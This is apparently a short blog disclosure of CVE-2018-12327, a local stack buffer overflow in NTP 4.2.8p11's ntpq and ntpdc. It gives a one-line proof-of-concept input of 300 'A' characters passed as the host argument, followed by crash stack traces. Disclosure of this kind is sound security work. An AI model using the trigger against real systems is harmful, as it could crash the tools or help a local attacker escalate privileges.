 ```yaml
---
layout: post
title: "[CVE-2018-12327] ntpq and ntpdc 4.2.8p11 Local Buffer Overflow"
date: 2018-06-06
categories:
    - blog
keywords: "ntpq, ntpdc, buffer overflow"
---
```


Stack-based buffer overflow in ntpq and ntpdc of NTP version 4.2.8p11 allows a local attacker to achieve code execution or escalate to higher privileges via a long string as the argument for an IPv4 or IPv6 command-line parameter.<br>

```
$ ./ntpq -4 [`python -c 'print "A" * 300’`]

#0 0x562fcada86ce in openhost /home/user/ntp-4.2.8p11/ntpq/ntpq.c:655:12
#1 0x562fcada5f2a in ntpqmain /home/user/ntp-4.2.8p11/ntpq/ntpq.c:606:10
#2 0x562fcada4729 in main /home/user/ntp-4.2.8p11/ntpq/ntpq.c:469:9
#3 0x7f79b684982f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#4 0x562fcac96d88 in _start (/home/user/ntp-4.2.8p11/ntpq/ntpq+0xacd88)

$ ./ntpdc -4 [`python -c 'print "A" * 300'`]

#0 0x55f726641efe in openhost /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:413:12
#1 0x55f7266400d4 in ntpdcmain /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:365:10
#2 0x55f72663f269 in main /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:255:9
#3 0x7f0fc632382f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#4 0x55f7265362d8 in _start (/home/user/ntp-4.2.8p11/ntpdc/ntpdc+0x9d2d8)
```

